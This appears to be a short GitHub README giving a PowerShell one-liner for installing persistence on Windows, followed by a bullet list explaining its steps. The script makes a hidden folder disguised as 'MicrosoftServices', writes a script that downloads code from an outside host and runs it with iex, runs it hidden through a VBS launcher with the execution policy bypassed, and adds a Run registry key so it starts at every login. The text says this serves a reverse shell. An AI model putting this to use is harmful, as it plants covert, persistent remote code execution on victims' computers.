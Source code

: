 # Powershell commands 


## 1. Running the script on login

`
$documentsPath = [Environment]::GetFolderPath("MyDocuments");$folderPath = Join-Path -Path $documentsPath -ChildPath "MicrosoftServices";if(-not (Test-Path -Path $folderPath)){New-Item -Path $folderPath -ItemType Directory | Out-Null};
$xContent = @'
$r = iwr https://xyz.vercel.app/ -H @{'Authorization'='Bearer xyzxyz'}; iex $r.Content
'@;$xPath = Join-Path -Path $folderPath -ChildPath "x.ps1";
Set-Content -Path $xPath -Value $xContent;$yContent = @'
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File ""C:\Users\%USERNAME%\Documents\MicrosoftServices\x.ps1""", 0, False
'@;$yPath = Join-Path -Path $folderPath -ChildPath "y.vbs";
Set-Content -Path $yPath -Value $yContent;Set-ItemProperty -Path $folderPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden);Set-ItemProperty -Path $xPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden);Set-ItemProperty -Path $yPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden);$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run";$regName = "MicrosoftServices";$regValue = "wscript.exe ""$yPath""";if(-not (Get-ItemProperty -Path $regPath -Name $regName -ErrorAction SilentlyContinue)){New-ItemProperty -Path $regPath -Name $regName -Value $regValue -PropertyType String | Out-Null};Write-Host "1"
`
What this does:
- creating a hidden folder `MicrosoftServices` in the user's Documents folder (can be anywhere)
- adds a .ps1 script that contains the api call for the revershe Shell script
- adds a vbs script that runs the powershell script in the background
- creates a registry key in HKCU (on login), that runs the vbs file
